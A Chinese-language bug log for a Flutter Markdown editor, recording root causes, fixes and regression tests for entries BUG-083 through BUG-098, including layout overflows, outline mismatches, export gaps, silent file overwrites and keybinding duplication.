- `code/lib/services/markdown_parser.dart`（公开 `startsListItem`）
- `code/test/ui/editor/markdown_renderer_edit_test.dart`

---

## BUG-083：查找栏销毁时 `dispose()` 里用 `ref`，每次都抛

### 现象

关闭查找栏、切换标签、关闭文档——只要 `FindReplaceBar` 被销毁，就会抛一次
`Bad state: Cannot use "ref" after the widget was disposed`，而它本要执行的
`clearPreviewSearch()` **从来没有执行过**，预览里的搜索高亮因此残留。

因为异常发生在 widget 树拆除阶段，被框架接住报到控制台，界面不崩，所以一直
没人注意。

### 根因

```dart
void dispose() {
  _clearHighlighting();   // 里面是 ref.read(editorProvider.notifier)
  ...
}
```

Riverpod 的 `ConsumerStatefulElement` 在 `unmount()` 里**先**把自己标记为
disposed，**再**调 `State.dispose()`。所以 `dispose()` 里的 `ref` 必然已经失效。

修的过程中还撞出第二层：把 notifier 提前存下来、在 `dispose()` 里调用它，
仍然会炸——通知监听者会触发**已销毁组件**的 `markNeedsBuild`。

### 修复方案

- notifier 在 `initState` 里读一次存起来（`ref` 那时有效）；
- `dispose()` 里同步清掉**自己的**控制器高亮；
- 属于 provider 的那部分推迟到当前帧之后：`addPostFrameCallback` 里执行，
  并先检查 `notifier.mounted`——那时这个组件已经不在监听列表里，预览照样
  会停止高亮。

### 怎么发现的

不是读代码看出来的，是**给另一个问题（BUG-084）写组件测试时炸出来的**。
这个查找栏此前只有纯逻辑测试，从没被真正挂载过；一挂载，销毁路径立刻报错。
"给没有组件测试的组件补第一个组件测试"本身就是一种有效的排查手段。

---

## BUG-084：分屏把搜索切到预览后，替换按钮仍可点却什么都不做

### 现象

分屏模式下先展开"替换"、再把搜索目标切到预览：替换与全部替换两个按钮**保持
可点**，但 `_replace()` / `_replaceAll()` 第一行就 `if (!_isSourceTarget()) return;`。
按下去没有任何反应，也没有提示。

### 收窄后的结论

我最初以为"预览模式下替换全都是摆设"，**这是错的**：展开替换的那个箭头按钮
本身就带 `if (_isSourceTarget())` 守卫，纯预览模式下根本看不到替换行。真正
能走到的只有上面那条分屏路径——先展开、再切目标，行留在原地而按钮没跟着变。

### 修复方案

两个按钮与替换输入框的可用性都取自 `_isSourceTarget()`，而不是只看有没有
匹配。新增 2 条组件测试（源码为目标时两个按钮都活、切到预览后都禁用），
按**标签**定位这两个按钮——按类型取会把栏里其它本就该可用的按钮也算进来，
我第一版断言就是这么写错的。

### 涉及文件

- `code/lib/ui/widgets/find_replace_bar.dart`
- `code/test/ui/widgets/find_replace_bar_test.dart`

---

## BUG-085：设置页输入到一半，界面一重建就被抹掉

### 现象

设置页里六个文本输入框（自动保存延迟、编辑器字体、代码字体、代码字号、
编辑器最大宽度、图片文件夹）都是**按回车提交**的。在还没按回车时，只要设置页
因为别的原因重建——**拨动同页任意一个开关就够了**——刚打的字就被恢复成配置里
的旧值。

同时六个 `TextEditingController` 每次重建都新建一个，旧的**从不 dispose**。

### 根因

```dart
controller: TextEditingController(text: config.fontFamily),
```

在 `build` 里 new 控制器：每次重建都是一个全新的控制器，文本自然回到 config
的值，光标也跟着跳。这是 Flutter 里的老反模式，六处一模一样。

### 修复方案

控制器移进 State，用 `_field(key, value)` 统一取：首次按当前值创建，
之后**只在配置值本身发生变化时**才回写文本——这样别处改了配置字段能跟上，
而读者正在输入的内容不会被覆盖。`dispose()` 里逐个释放。

新增 3 条组件测试：输入未提交时触发重建仍保留、别处改配置时字段跟上、
页面销毁不报错。

### 顺带发现，本轮未处理

给这个页面写第一个组件测试时，**默认 800×600 画布下布局横向溢出 205px**
（`RenderFlex overflowed`）。测试里把画布放大到 1400×900 绕开了，但这意味着
窗口较窄时设置页会出现溢出条纹。已单独记下，下轮处理——本轮改动只碰控制器，
不动布局。

### 涉及文件

- `code/lib/ui/screens/settings_screen.dart`
- `code/test/ui/screens/settings_fields_test.dart` —— 新增

---

## BUG-086：设置页在窄窗口下横向溢出

### 现象

把窗口拖到约 1000px 以下，设置页右侧出现黄黑条纹（`RenderFlex overflowed`），
且**不可滚动**。溢出量随窗口变窄线性增长：1000px 溢出 4.5px、900px 溢出
105px、800px 溢出 205px。

快捷键页更糟：59 条快捷键**每行溢出一次**，800px 下几十处同时报错。

程序没有设置最小窗口尺寸，所以这些宽度都是用户可以拖到的。

### 根因

三处都是"一行里没有任何一侧可以让步"：

- `_row(label, control)` 用 `Row(spaceBetween)` + 不可伸缩的 `Text`；
- 6 个下拉框没有限宽，宽度由**最长的选项文字**撑开（其它字段都有
  `SizedBox` 限宽，唯独下拉框没有）；
- 快捷键页自己另写了一遍同样形状的行。

英文界面就已经溢出，词更长的语言（德语、俄语）只会更早。

### 修复方案

- `_row`：标签放进 `Expanded`（长了就换行）；可用宽度小于 420px 时改为
  **上下排布**（标签一行、控件一行）。
- 6 个下拉框统一 `SizedBox(width: 220)` + `isExpanded: true`，与其它字段
  一致。
- 快捷键页那一行同样把动作名放进 `Expanded`——它本来就是 `_row` 的手抄版。

### 排查过程中纠正了自己一次

第一版测量把六个宽度放在同一个 `testWidgets` 里连续 pump，得到的结果**自相
矛盾**（1000 溢出、900 不溢出、700 又溢出）。原因是同一个 tester 里连续挂载
不同的树，错误归属会串。改成**每个宽度一个独立测试**后，结果立刻单调一致
（溢出量 = 1005 − 窗口宽），也才定位得到根因。

第二次差点收工太早：通用分类修好后 400~1000px 全绿，但**其它四个分类还没验**
——一验就发现快捷键页仍在大面积溢出。

### 涉及文件

- `code/lib/ui/screens/settings_screen.dart`
- `code/test/ui/screens/settings_fields_test.dart`（新增 4 条宽度回归，
  每条都会遍历全部五个分类）

---

## BUG-087：状态栏与菜单栏在窄窗口下同样横向溢出

### 现象

把 BUG-086 的检查手法推广到文档上下的界面部件，一扫就发现同一个毛病：

| 部件 | 700px | 500px | 360px |
|---|---|---|---|
| 状态栏 | 溢出 91px | 溢出 291px | 溢出 431px |
| 菜单栏 | 溢出 83px | 溢出 283px | 溢出 423px |
| 标签栏 | 干净 | 干净 | 干净 |

程序没有最小窗口尺寸，这些宽度都拖得到。

### 一条走不通的路，记下来

第一反应是"放不下就横向滚动"，把两处的 `Row` 包进 `SingleChildScrollView`。
**直接报错**：滚动方向上的约束是无界的，而这两个 `Row` 里都有 `Spacer`
（把右侧内容顶到边），`Spacer` 需要有界宽度才能工作。
**横向滚动与 `Spacer` 不能共存**——只好换思路。

### 修复方案

- **状态栏**：按"读者最不能少"的顺序逐级取舍。段落数 <820px 收起、
  字符数 <700px 收起、"Markdown" <600px 收起、编码 <440px 收起、
  换行符 <380px 收起。行号列号和字数始终保留。
- **菜单栏**：工具栏按钮 <820px 收起——它上面每一个按钮在旁边的菜单里都有
  对应项，收起不丢功能。六个菜单本身在 500px 以下仍然放不下，但菜单不能藏，
  于是**只让菜单区自己横向滚动**：`Spacer` 留在外层仍然有界的 `Row` 里，
  两者就不冲突了。

360~1200px 五个宽度、三个部件全部干净。

### 涉及文件

- `code/lib/ui/widgets/status_bar.dart`、`app_menu_bar.dart`
- `code/test/ui/widgets/narrow_window_test.dart` —— 新增 15 条

写这些测试时还踩了一个与布局无关的坑：状态栏依赖的字数统计有 300ms 防抖，
测试跑完定时器还挂着会直接判失败，得先把时间推过去。

---

## BUG-088：目录面板点条目跳错位置

### 现象

侧边栏的目录面板与预览**对"哪些行是标题"的判断不一致**，两处都错、方向相反：

| 写法 | 预览 | 目录 |
|---|---|---|
| `标题` 下一行 `===`（setext 下划线式） | 画成标题 | **不列出** |
| front matter 里的 `# 注释` | 不画 | **列出来** |

预览是按"第 N 个标题控件对应第 N 个目录条目"来定位的，所以**从第一处分歧
之后，每一条目录都会跳到错的标题**。文档里只要有一个 setext 标题、或 YAML
里有一行井号注释，后面全乱。

### 根因

`headingOutline` 只匹配 ATX 形式（`# 标题`）的行，既不认 setext，也不跳过
front matter 块；而 `parse()` 两件事都做了。

讽刺的是这个函数上方就写着注释——"与预览共享，两处读法不一致会让第一处分歧
之后的每一条都错行"。**警告写对了，实现没跟上。**

### 修复方案

让 `headingOutline` 按 `parse()` 的方式读同一份文档：先跳过 front matter 块
（复用既有的 `isFrontMatterOpener`，`{` 用 `}` 收尾），再在 ATX 之外识别
setext（前一行非空、不是水平分割线、下一行是 `===` 或 `---`）；行号取**文字
所在行而非下划线行**——跳到下划线会把标题顶出视野。

新增 13 条测试，其中 10 条是**同一份文档同时问两边**、断言两个列表完全相等。
这正是那句注释真正需要的守护。

### 本轮同时确认为干净的

- **RTL（阿拉伯语）布局**：菜单栏、状态栏、标签栏、设置页在 1200/800px 下
  挂载均无异常。
- 大纲对围栏代码块、缩进代码块、`#标签`（无空格）、七个井号、尾部井号的
  判断都正确。

### 涉及文件

- `code/lib/services/markdown_parser.dart`
- `code/test/services/heading_outline_test.dart` —— 新增

---

## BUG-089：写在步骤或引用里的 mermaid 图，导出后没有图片

### 现象

```markdown
1. 第一步

   ```mermaid
   flowchart TD
   A-->B
   ```
```

这张图在 PDF 和 Word 里**没有图片**。HTML 里则退化成需要联网的 CDN 渲染，
即使同文档其它图都已内嵌。

### 根因，以及这是我上一轮引入的回归

图片是这样传递的：菜单栏先把每张图渲染成 PNG 存进一个映射，导出服务再取出来
嵌入。**两边都靠"数到第几个图表块"来对号**，而两边**都只遍历顶层节点**。

FEAT-030（列表项可以携带块级内容）之后，写在步骤下面的 mermaid 块不再是顶层
节点，而是那一项的 `children`——于是两边都数不到它。两个计数器仍然彼此一致，
所以没有嵌错图，但那张图**根本没有图片可嵌**。改动之前它是顶层节点，是正常出图的。

代码里那句注释——"必须与 ExportService 保持一致，否则会嵌错图片"——**防住了
"不一致"，没防住"两边一起漏"**。

### 修复方案

不再数下标，改为**按图表内容本身做键**：

- `MarkdownParser.walk()` 统一深度优先遍历（进入列表项与引用的 children），
  两边都用它；
- 键从 `mermaid_0` 改成图表源码本身，与出现顺序无关；
- 三个导出的渲染函数把单值 `mermaidImage` 参数换成整个映射，并在递归进入
  子节点时一并转发——这是原先缺的那一环，嵌套节点拿不到图正是因为它。

顺带删掉了三处"数第几个图表块"的循环。

### 涉及文件

- `code/lib/services/markdown_parser.dart`（新增 `walk`）
- `code/lib/services/export_service.dart`
- `code/lib/ui/widgets/app_menu_bar.dart`
- `code/test/services/html_export_diagram_test.dart`（键改为内容，新增
  "步骤里的图"与"引用里的图"两条）

### 怎么发现的

承接 BUG-088 的思路——**找"两处代码读同一份文档"的地方**。这是本项目里
第二处，而且这次是我自己上一轮的改动把它踩坏的：改完 FEAT-030 之后顺着
"我刚动过的数据结构被谁消费"查一遍，比等用户报要划算。

---

## BUG-090：写在步骤里的公式与图片，导出时被漏掉

### 现象

导出 HTML 时：

| 写在哪 | 公式 | 本地图片 |
|---|---|---|
| 顶层 | 正常 | 正常 |
| 引用里 | 正常 | 正常 |
| **列表项里** | **不加载 KaTeX**，公式以 `$$x^2$$` 原样出现 | **不内嵌**，留一个相对路径，换台机器打开就是坏图 |

### 根因

`_containsMath` 与 `_readLocalImages` 都是**手写的遍历，各自枚举自己认识的
容器**：段落、标题、引用、列表项的一行文字。FEAT-030 之后列表项还能携带
**自己的块**，而这两个函数都不认识那一层。

引用之所以没事，是因为它们都专门写了 `BlockquoteNode` 这一支——**枚举式的
遍历只在被想到的容器上正确**，这正是 BUG-089 的同一个毛病。

### 修复方案

两处都改走 `MarkdownParser.walk()`（BUG-089 时新增的统一深度优先遍历）。
这样它们看见的容器与导出真正渲染的完全一致，将来再加容器也不必回来补。

新增 8 条测试，公式与图片各覆盖顶层/步骤里/引用里三种位置，外加一条
"没有公式就不该加载 KaTeX"。

### 这条线索的价值

BUG-088 → 089 → 090 是同一条线索的三步：**先找"两处代码读同一份文档"，
再找"只遍历顶层 AST"的地方**。有了 `walk()` 之后第二步可以机械扫描：
`for (final node in ast)` 一共十二处，逐一判断哪些该递归。

### 涉及文件

- `code/lib/services/export_service.dart`
- `code/test/services/nested_export_content_test.dart` —— 新增

---

## BUG-091：写在步骤里的 setext 标题被大纲多算一条

### 现象

```markdown
# 一

1. 步骤

   标题
   ===
```

大纲列出 **2 条**，而预览只画出 **1 个顶层标题**。目录靠"第 N 个条目对应第 N
个标题控件"定位，多出来的这一条会让它之后的每一条都跳错——正是 BUG-088 的
故障，只是方向反过来。

**这是我修 BUG-088 时引入的。** 当时给大纲补上了 setext 识别，但只判断
"上一行非空、下一行是 `===`"，**没有管缩进**。

### 根因

大纲的 ATX 分支用的是 `^(#{1,6})\s+…`——**要求井号顶格**，所以写在步骤里的
`### 标题` 本来就不会被列出，与预览一致。而我新加的 setext 分支没有同样的
要求，于是把列表项携带的那一个也算了进去。

### 修复方案

setext 分支同样要求**文字行顶格**。这比 CommonMark 宽容的"最多 3 个前导空格"
更严，但**目录跳转依赖的是两边计数相同**，而预览数的是顶层块——一致性在这里
比规范宽容度更重要，注释里写明了这一点。

新增 3 条测试，直接断言"大纲列出的"与"解析出的**顶层**标题"完全相等：
步骤里的 ATX 标题、步骤里的 setext 标题、引用里的标题，三种都不该出现在大纲里。

### 记一笔

BUG-088 当时新增的 13 条测试断言的是"大纲 == 解析出的**全部**标题"，在那些
用例里两者恰好相同，所以没发现这个缺口。这次的断言改成了"大纲 == **顶层**
标题"——**这才是预览真正依赖的那个不变式**。

### 涉及文件

- `code/lib/services/markdown_parser.dart`
- `code/test/services/heading_outline_test.dart`

---

## BUG-092：重命名或新建时撞上同名文件会直接覆盖

### 现象

实测（临时目录，真实调用服务层）：

| 操作 | 结果 |
|---|---|
| 把 `a.md` 重命名成已存在的 `b.md` | **b.md 的内容被 a.md 覆盖** |
| 新建一个与已有 `c.md` 同名的文件 | **c.md 被清空** |

全程没有确认框、没有提示、没有撤销。这是本轮排查里唯一一条会**丢用户数据**的，
定 P0。

### 根因

`FileService` 两个方法都用了会静默覆盖的 API：

- `File.rename()` —— POSIX 语义就是替换目标；
- `File.writeAsString()` —— 打开即截断。

而从 UI 到 provider 到服务，**三层都没有任何重名检查**。

### 修复方案

在服务层这个唯一收口处堵住：`renameFile` 与 `createFile` 在目标已存在时抛出
新增的 `PathExistsException`，除非调用方显式传 `overwrite: true`（保留这个
出口，是因为将来"另存为并覆盖"这类操作确实需要它，而且要显式写出来）。

侧边栏的 `_runFileOp` 本来就会把异常显示成提示条，这次给它加了一支专门的
分支：这种失败最常见、也最是读者能自己处理的，不该让人看见一个原始异常名。
新增 `fileNameTaken` 词条，12 种语言。

新增 7 条测试：拒绝同名文件、拒绝同名文件夹、**被拒绝后原文件必须原封不动**、
允许空闲的名字、重命名成自己不算错、`overwrite: true` 仍然可用、新建时不清空
已有文件。

### 怎么找到的

markdown 那条线索收尾后换面，直接读 `FileService` 的四个方法——**只有四行的
函数最容易藏这种事，因为看起来没什么可错的**。看到 `File.rename` 的那一刻就
写了探针，而不是先下结论。

---

## BUG-093：点已删除的最近文件毫无反应

### 现象

文件 ▸ 最近文件里，点一个已经被删除或移走的条目——**什么都不会发生**。没有
提示，条目也不会消失，读者只会再点几次。

### 根因

```dart
void _openRecentFile(WidgetRef ref, String filePath) async {
  final file = File(filePath);
  if (!await file.exists()) return;   // ← 安静地什么都不做
```

**这是本项目第三次出现同一个模式**：BUG-082（勾选框定位错行后 `replaceFirst`
找不到就 return）、BUG-084（替换按钮在预览目标下第一行就 return）、以及这一条。
共同点是——**用一个提前 return 处理"办不到"，而没有人告诉读者办不到**。

### 修复方案

文件不在时：把这一条从最近文件列表里去掉，并弹出提示。"文件被移走或删掉"是
这个菜单里最常见的情况，而这份列表恰恰是唯一能自己纠正的地方。新增
`recentFileMissing` 词条，12 种语言。

### 顺带确认为干净的

同一轮里按"短函数最容易藏事"逐个读过：

- `ImageService` —— 粘贴与拖入图片都走 `_unusedPath`，撞名会自动改名，**不会
  覆盖**；
- `ConfigService` —— 写配置已经是"临时文件 + 原子改名"，读到损坏的配置会隔离成
  `.corrupt` 再退回默认值；
- `addRecentFile` —— 去重并限长 10 条；
- `restoreOpenedFiles` —— 恢复侧边栏时跳过已不存在的文件。

### 一处过程记录

给 12 个语言文件插词条时，脚本在 `zh` 上失败了——那个键恰好是**文件里最后
一个、没有尾逗号**，而我的正则要求有逗号。当时 `en` 已经写进去了，等于 12 份
文件短暂地不一致。改成能处理两种情形的插入，并在结尾**校验 12 个文件键集完全
相同**（各 282 条）才算完。

### 涉及文件

- `code/lib/ui/widgets/app_menu_bar.dart`
- `code/lib/core/i18n/l10n/app_*.arb`（12 个）

---

## BUG-094：没有文档时导出与打印仍可点

### 现象

关掉最后一个标签页之后（`removeTab` 会把 `activeTabId` 置为 null，这个状态是
可达的），文件 ▸ 导出 ▸ HTML/PDF/Word 和文件 ▸ 打印**四项仍然可以点**，点了
什么都不会发生——四个处理函数的第一行都是 `if (activeTab == null) return;`。

### 这是同一个模式的第四次

BUG-082（勾选框）、BUG-084（替换按钮）、BUG-093（失效的最近文件），加上这四项。
所以这轮没有再靠肉眼找，而是**把这个模式写成了扫描**：先从 `onPressed`/`onTap`
反查出由点击直接触发的方法（30 个），再筛出其中"含失败即裸 `return`、且整个
方法体里没有任何提示"的。

扫出 7 处，逐条判断后**只有 4 处是真问题**：

| 命中 | 判断 |
|---|---|
| `_performSearch` ← `query.isEmpty` | 正常，没内容可搜 |
| `_findNext` ← `_matches.isEmpty` | 正常，按钮本就禁用 |
| `_openFolder` ← `result == null` | 正常，用户取消了选择框 |
| 导出三项与打印 ← `activeTab == null` | **真问题** |

### 修复方案

菜单在构建时取一次 `hasDocument`，四项的 `onPressed` 在没有文档时为 `null`
——`onPressed: null` 正是这个项目里其它菜单项表示"当前不可用"的写法。

### 一处记录

改完 analyze 报了四条 `sort_child_properties_last`（`child:` 应当放在参数表
最后）。这几行原先就是那个顺序却没报过，我没有深究是什么触发了它——**照 lint
说的调整顺序即可，不必为一条风格提示编一个解释**。

### 涉及文件

- `code/lib/ui/widgets/app_menu_bar.dart`

---

## BUG-095：任务列表忽略「列表标记」设置

### 现象

设置里把列表标记选成 `*` 之后：

- 插入无序列表 → `* `（正确，这一条以前修过）
- 插入任务列表 → `- [ ] `（**仍是短横线**）

同一份文档里出现两种标记。相邻时有些解析器会把它们读成两个列表。

### 怎么找到的

这轮换了个扫描维度：**41 个配置项里，有哪些在测试中从未出现过**——答案是 18 个。
多数是纯持久化（窗口位置、最近目录、跳过的版本号），风险低；挑其中最像"行为
配置"的 `bulletListMarker` 去看，就看到了这一处。

`unorderedList` 那一支的注释还写着"配置的标记，此前没人读"——说明修过一次，
但**只修了一支，旁边的 `taskList` 照旧写死**。又是"同一件事只做了一处"。

### 修复方案

按本项目测可测逻辑的惯例（如 `SourceEditor.toggleWrap`），把"某个格式动作该插
什么前缀"抽成静态纯函数 `SourceEditor.listPrefixFor(action, bulletMarker)`，
三个列表动作都走它。

4 条测试，最后一条是**不变式**而不是具体取值：任务列表的前缀必须以普通列表的
前缀开头——这样将来任何一支改了标记，另一支不跟就会失败。

### 顺带确认

上游的 `codeBlockLineNumbers` 只传给编辑器、**不参与导出**（`grep` 上游源码，
只在 `editor.vue` 与偏好设置里出现），所以 FEAT-032 只做在预览里与上游一致，
不存在"预览与导出不一致"要修。

### 涉及文件

- `code/lib/ui/editor/source_editor.dart`
- `code/test/ui/editor/source_editor_prefix_test.dart`

---

## BUG-096：打印的快捷键从未生效

### 现象

FEAT-028 把 `print` 改到 **Ctrl+P**、命令面板挪到 **Ctrl+Shift+P**，快捷键表、
菜单、设置列表都改了。但按 Ctrl+P 打开的**仍然是命令面板**，打印没有任何
快捷键可用。

### 根因

`home_screen` 的全局按键处理里有一段写死的分支：

```dart
// Ctrl+P / Cmd+P -> command palette. Not a configurable binding, so
// it stays here rather than in the keybinding table.
if (event.logicalKey == LogicalKeyboardKey.keyP && isCtrl) { ... }
```

它先于菜单响应并 `return handled`。**注释在它被写下的那天是对的**——那时命令
面板确实不可配置；FEAT-028 让它可配置了，注释和代码却都留在原地。

这是"同一件事两处实现"的又一例：快捷键表一处、写死的分支一处。

### 修复方案

全局处理器改为**从快捷键表取**当前绑定并用 `SingleActivator.accepts` 匹配。
这样表成为唯一来源，改绑定不需要再记得改这里。

保留在全局处理器里（而不是只靠菜单）是有原因的：**专注模式会把菜单栏整个移出
组件树**，随之带走菜单注册的所有快捷键；命令面板在那种模式下反而最该能用。

### 测试

4 条，其中两条是**不变式**：命令面板与打印不能想要同一个键位；默认表里每个
键位只能被一个动作认领。当初这个冲突之所以没被发现，正是因为冲突的双方一个
在表里、一个不在——所以这两条断言的是"表内无冲突"加"这两个动作各自的位置"。

### 顺带确认为干净的

- `imageStorageMode` / `imageFolder`：`copy` 模式确实忽略文件夹名，但设置页
  **只在共享文件夹模式下才显示那个输入框**，行为与界面一致，不是缺陷。
- `typewriterMode`：确实是"保持光标行居中"，与上游一致。

### 一处记下但未动的分歧

我们的 `focusMode` 是**隐藏菜单栏、侧边栏、标签栏、状态栏**（无干扰模式），
而上游 MarkText 的 Focus Mode 是**淡化当前段落以外的内容**——同名不同物。
两者都有用，改动会变更既有的用户可见行为，属于需要产品决定的取舍，这轮不动，
如实记下。

### 涉及文件

- `code/lib/ui/screens/home_screen.dart`
- `code/test/services/palette_binding_test.dart` —— 新增

---

## BUG-097：改了快捷键，旧键仍然生效

### 现象

设置里可以改快捷键（`setKeybinding` 就是设置页调的）。但把这六个动作之一改绑
之后——源码/预览/分屏模式、标签栏、侧边栏、专注模式——**旧的键位仍然管用**，
而新键只在菜单栏挂着时才管用（专注模式下菜单栏被移出组件树，新键就完全按不动）。

### 根因

`home_screen._runViewShortcut` 把这六个键位**逐个写死**：`Ctrl+Alt+1`、
`Ctrl+Shift+B`……它们**恰好与表里一致**，所以肉眼看不出问题，只有改绑时才现形。

这是 BUG-096 的同一处代码、同一个毛病：**表一处、写死的判断一处**。上一轮我
只修了被自己踩坏的那一条（Ctrl+P），没有回头看它旁边那六条——**修一处而不看
同族，正是这个项目反复吃亏的地方**。

### 修复方案

`_runViewShortcut` 改名 `_runGlobalShortcut`，用一张"动作 → 回调"的表，逐个
向 `KeybindingService` 要当前绑定并用 `SingleActivator.accepts` 匹配。上一轮
单独加的命令面板分支也并了进来，现在全局处理器只有一处、只认表。

保留在全局处理器里的理由不变：专注模式会把菜单栏移出组件树，这些视图快捷键
（尤其是退出专注模式）在那时最该能用。

### 测试

新增 2 条：这七个动作必须都在表里；`_runGlobalShortcut` 的源码里**不得再出现
`LogicalKeyboardKey.digit1/keyB/keyP` 这样的字面比较**——后一条直接读源文件，
因为它要守的正是"不要把键位再写死一遍"。

### 涉及文件

- `code/lib/ui/screens/home_screen.dart`
- `code/test/services/palette_binding_test.dart`

---

## BUG-097 补记：我自己引入的第二套查表，已合并

修 BUG-097 时我新写了一个 `_runGlobalShortcut`：拿七个动作，逐个向
`KeybindingService` 要绑定，再用 `SingleActivator.accepts` 匹配。

**但主界面里本来就有 `_runShortcut`，而它已经是表驱动的**——用
`actionForEvent` 做"事件 → 动作"的反查，走的是索引。两者覆盖的动作不重叠，
所以没有死代码、也没有可见故障，但**同一个文件里出现了两套把按键变成动作的
机制**：一套正查、一套反查。

这正是我这两轮一直在批评的东西，只不过这次是我自己写的。已把七个动作并进
`_runShortcut` 的 switch，删掉 `_runGlobalShortcut`——现在只剩一次查表、一处
分发。

守护测试也跟着改了，并加了一条新的：主界面源码里**必须有 `actionForEvent`、
必须没有 `activatorFor`**。它守的不是某个行为，而是"只能有一套查表方式"。

**记这一笔是因为过程本身值得记**：上一轮我说"修一处而不看同族是这个项目反复
吃亏的地方"，紧接着自己就在同一个文件里加了一处同族的重复。先看清现场已有
什么，再决定加什么。

---

## 2026-08-28：撤销/重做的一次核查（未发现缺陷，已补测试）

### 查了什么

撤销历史是**按标签页分开存**的（`_undoStacks[tabId]`），而指向哪一份由
`setHistoryTab` 决定，且它**只在编辑器的 `initState` 里调用一次**。如果切换
标签时编辑器组件被复用而非重建，撤销就会拿到上一个文档的历史——那是会静默
损坏内容的一类问题，所以逐环核实：

| 环节 | 结论 |
|---|---|
| 主界面的 `SourceEditor` | 有 `key: ValueKey('source_inner_$tabId')`，重建 ✓ |
| 分屏里的 `SourceEditor` 无 key | 但外层 `SplitEditor` 有 `ValueKey('split_inner_$tabId')`，整棵子树重建 ✓ |
| 同一标签在源码/分屏间切换 | key 变化 → 重建 → 再次 `pushHistory` |
| 那次 `pushHistory` 会不会清掉重做栈 | **不会**：它对"与栈顶相同的内容"提前返回，而撤销之后控制器文本恰好等于栈顶；传入的 `initialContent` 取的是 `activeTab.content`（当前内容）而非打开时的内容 ✓ |

**没有发现缺陷。**

### 为什么还是动了手

这几条结论此前**只靠读代码成立**，没有任何测试守着；而注释里记着这块曾出过
两个静默的 bug（撤销一次退两步、只有一条记录时撤销毫无反应）。已补 4 条：

- 在一个标签里撤销不会碰到另一个标签的内容；
- 切回某个标签，它的历史还在原处；
- 关掉标签会丢弃它的历史；
- **重建编辑器不会清掉重做栈**——这条最微妙，它依赖的正是上表最后一行那个
  "恰好相等"。

### 记一笔

这一轮没抓到 bug。把"核实为正确"和"没查"区分开是有价值的：前者可以变成测试，
后者只是还没轮到。

---

## BUG-098：批量关闭标签页不做清理

### 现象

关闭**单个**标签页会丢弃它的撤销历史、取消它待触发的自动保存；而"关闭其它"、
"关闭右侧"、"全部关闭"这三条路**两件都不做**。撤销历史每份最多 200 个整篇文档
快照，一次关掉十个标签，这些就留到会话结束。

不丢数据（自动保存触发时找不到标签会直接返回），但内存白占。

### 根因

`removeTab` 把两步清理写在自己里面，三个批量关闭各写各的状态更新，谁也没带上
这两步。又是"同一行为多处实现"。

### 修复方案

这个文件里**已经有现成的正确做法**——`set state` 被重写来同步磁盘监听，注释
写着"挂在状态变化上，而不是在八个增删标签的地方各写一遍：这个版本已经记录了
六个 bug，起因都是一个行为散落在多个调用点然后各自漂移"。

照它办：在同一个 setter 里按 id 差集算出"消失的标签"，逐个释放。`removeTab`
里手写的那两步随之删掉——现在无论哪条路关标签都会清理，将来新增的关闭方式
也自动包含在内。

新增 5 条测试，四条覆盖四种关闭方式，第五条是**反向守卫**：重排标签页时 id
集合不变，**不得**释放任何历史。

### 同轮核实为正确的两处

- **批量关闭对未保存修改的处理**：`_closeMany` 会先挑出有改动的标签、列出
  文件名询问，选择保存时逐个保存，**任何一个保存失败就中止整个操作**（注释：
  "放弃一次保存就等于放弃整件事，继续关下去仍会丢掉这个标签的工作"）。没有
  数据丢失。
- **拖动重排的下标**：调用的是 `onReorderItem` 而非旧的 `onReorder`。查了
  Flutter SDK 源码，前者**已经替调用方做了"移除后下标减一"的修正**（旧的那个
  已废弃），所以直接 `removeAt` + `insert` 是对的。

### 涉及文件

- `code/lib/providers/tab_provider.dart`
- `code/test/providers/tab_release_test.dart` —— 新增

---
